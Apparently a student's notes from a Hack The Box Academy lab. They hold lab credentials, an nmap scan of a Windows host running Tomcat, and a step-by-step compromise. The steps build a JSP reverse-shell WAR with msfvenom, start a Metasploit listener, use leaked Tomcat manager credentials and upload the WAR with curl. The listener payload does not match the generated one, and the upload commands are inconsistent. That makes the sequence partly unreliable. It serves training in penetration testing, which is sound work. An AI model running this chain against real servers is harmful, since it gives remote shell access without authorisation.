 ```
10.129.204.126
```

Credentials: htb-student / HTB_@cademy_stdnt!

Host 1: 172.16.1.11:8080
Host 3: 172.16.1.13
Host 2: blog.inlanefreight.local


```
xfreerdp /v:10.129.204.126 /u:htb-student /p:HTB_@cademy_stdnt!
```

#### NMAP Scan: Host 1
```
└──╼ $nmap -A -sC -Pn 10.129.32.8
Starting Nmap 7.92 ( https://nmap.org ) at 2023-10-14 12:19 EDT
Nmap scan report for status.inlanefreight.local (172.16.1.11)
Host is up (0.057s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Inlanefreight Server Status
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 Standard 17763 microsoft-ds
515/tcp  open  printer
1801/tcp open  msmq?
2103/tcp open  msrpc         Microsoft Windows RPC
2105/tcp open  msrpc         Microsoft Windows RPC
2107/tcp open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-10-14T16:20:08+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=shells-winsvr
| Not valid before: 2023-10-13T16:06:28
|_Not valid after:  2024-04-13T16:06:28
| rdp-ntlm-info: 
|   Target_Name: SHELLS-WINSVR
|   NetBIOS_Domain_Name: SHELLS-WINSVR
|   NetBIOS_Computer_Name: SHELLS-WINSVR
|   DNS_Domain_Name: shells-winsvr
|   DNS_Computer_Name: shells-winsvr
|   Product_Version: 10.0.17763
|_  System_Time: 2023-10-14T16:20:03+00:00
8080/tcp open  http          Apache Tomcat 10.0.11
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/10.0.11
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T16:20:03
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: shells-winsvr
|   NetBIOS computer name: SHELLS-WINSVR\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-10-14T09:20:03-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: SHELLS-WINSVR, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:d5:ed (VMware)
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.75 seconds

```

#### Host 1 IPs and Domain Names

172.16.1.11  status.inlanefreight.local
172.16.1.12  blog.inlanefreight.local
10.129.201.134  lab.inlanefreight.local

#### Start firefox
```
/usr/bin/firefox
```
#### War Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war > reverse.war
```

#### Use Metasploit to Setup the Listener
```
msf5> use exploit/multi/handler  
msf5> set payload windows/meterpreter/reverse_tcp  
msf5> set LHOST 172.16.1.5 
msf5> set LPORT 4444  
msf5> run
```
#### Credentials

For Apache Tomcat
```
tomcat:Tomcatadm
```

For blog.inlanefreight.local
```
admin:admin123!@#
```

#### Curl Post Request
```
curl --upload-file reverse.war -u 'tomcat:Tomcatadm' "http://status.inlanefreight.local"
```

#### Upload the reverse.war file
```
curl -d @reverse2.war http://status.inlanefreight.local/form1
```


